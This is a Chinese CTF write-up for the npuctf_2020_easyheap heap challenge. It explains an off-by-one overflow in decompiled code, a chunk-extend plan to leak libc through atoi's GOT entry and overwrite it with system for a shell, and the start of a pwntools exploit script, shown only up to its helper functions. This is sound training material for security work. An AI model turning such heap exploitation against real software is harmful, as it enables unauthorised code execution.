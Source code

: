 ```
```

然后是edit函数，进行输入的大小为 `size+1` ，也就是存在off-by-one漏洞，溢出一字节，加上之前申请大小只能为0x18或者0x38，复用了下一块chunk的前比那个字节，溢出一字节刚好覆盖下一chunk的size位。

```
unsigned __int64 edit()
`{`
  int v1; // [rsp+0h] [rbp-10h]
  char buf[4]; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 &lt; 0 || v1 &gt; 9 )
  `{`
    puts("Out of bound!");
    _exit(0);
  `}`
  if ( heaparray[v1] )
  `{`
    printf("Content: ");
    read_input(*((_QWORD *)heaparray[v1] + 1), *(_QWORD *)heaparray[v1] + 1LL);
    puts("Done!");
  `}`
  else
  `{`
    puts("How Dare you!");
  `}`
  return __readfsqword(0x28u) ^ v3;
`}`
```

到这就有了思路，通过溢出一字节覆盖下一chunk的size位，也就是存储用户申请chunk的size和地址的chunk（姑且称之为 heap struct），实现 Chunk Extend ，然后将其free，此时bins中的情况是这样的， `0x14e32c0` 是用户申请chunk的地址， `0x14e32a0` 是因为我们刚才修改了struct的size位。

[![](https://p2.ssl.qhimg.com/t01350e6f396038a2c3.png)](https://p2.ssl.qhimg.com/t01350e6f396038a2c3.png)

再进行申请，我们申请的chunk就会将struct包含在其中，我们将atoi函数的got表地址写入struct，然后进行输出，就会输出atoi函数的真实地址，就可以将libc的基址泄露出来，然后将atoi函数的got进行覆写，修改为system函数的地址，然后输入 `/bin/sh\x00` 即可getshell。

exp:

```
from pwn import *

# io = process('./npuctf_2020_easyheap',env=`{`"LD_PRELOAD":"./libc-2.27.so"`}`)
# io = process('./npuctf_2020_easyheap')
io = remote('node3.buuoj.cn', 26590)

elf = ELF('./npuctf_2020_easyheap')
libc = ELF('./libc-2.27.so')

def add(size, content):
    io.sendlineafter('Your choice :', str(1))
    io.sendlineafter('Size of Heap(0x10 or 0x20 only) : ', str(size))
    io.sendafter('Content:', content)
    io.recvuntil('Done!\n')

def edit(index, content):
    io.sendlineafter('Your choice :', str(2))
    io.sendlineafter('Index :', str(index))
    io.sendafter('Content: ', content)
    io.recvuntil('Done!\n')
```